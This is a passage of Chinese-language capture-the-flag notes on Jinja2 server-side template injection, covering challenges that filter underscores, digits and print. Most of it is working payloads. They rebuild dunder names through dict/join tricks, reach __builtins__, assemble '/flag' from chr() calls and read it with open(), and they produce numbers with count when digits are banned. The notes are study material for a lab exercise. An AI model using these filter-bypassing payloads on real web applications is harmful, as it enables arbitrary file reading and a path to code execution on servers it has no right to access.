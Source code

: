 1. 第一个join只是拼接dict中的key
2. 第二个join是把整体拼接在一起
3. 最后一个join后可以没有`()`
   :::

```python
?name=
{% set po=dict(po=a,p=a)|join%}#po = pop
{% set a=(()|select|string|list)|attr(po)(24)%}#pop 24是下划线_
{% set ini=(a,a,dict(init=a)|join,a,a)|join()%}#__init__
{% set glo=(a,a,dict(globals=a)|join,a,a)|join()%}#__globals__
{% set geti=(a,a,dict(getitem=a)|join,a,a)|join()%}#__getitem__
{% set built=(a,a,dict(builtins=a)|join,a,a)|join()%}#__builtins__
{% set x=(q|attr(ini)|attr(glo)|attr(geti))(built)%}#x=q.__init__.__globals__.['__builtins__']
{% set chr=x.chr%}		#获取chr
{% set file=chr(47)%2bchr(102)%2bchr(108)%2bchr(97)%2bchr(103)%}	#拼接/flag
{%print(x.open(file).read())%}	#打开flag
```

- 上面的`%2b`也可以用`~`

```python
{% set file=chr(47)%2bchr(102)%2bchr(108)%2bchr(97)%2bchr(103)%}
```

- 也可以用join

```python
{% set file=(chr(47),chr(102),chr(108),chr(97),chr(103))|join%}
```

## web 370(过滤数字)

:::info

1. 过滤数字就想办法找到可以数字母个数的函数
2. `count`或者`length`都可以
3. **其实这些思想前面都有，需要好好总结一下**
   :::

```python
?name=
{% set c=(dict(e=a)|join|count)%}
{% set cc=(dict(ee=a)|join|count)%}
{% set ccc=(dict(eee=a)|join|count)%}
{% set cccc=(dict(eeee=a)|join|count)%}
{% set ccccccc=(dict(eeeeeee=a)|join|count)%}
{% set cccccccc=(dict(eeeeeeee=a)|join|count)%}
{% set ccccccccc=(dict(eeeeeeeee=a)|join|count)%}
{% set cccccccccc=(dict(eeeeeeeeee=a)|join|count)%}
{% set coun=(cc~cccc)|int%}
#构成了从1-10的数字，替换前面payload的数字就可以了
```

## web 371(过滤print)
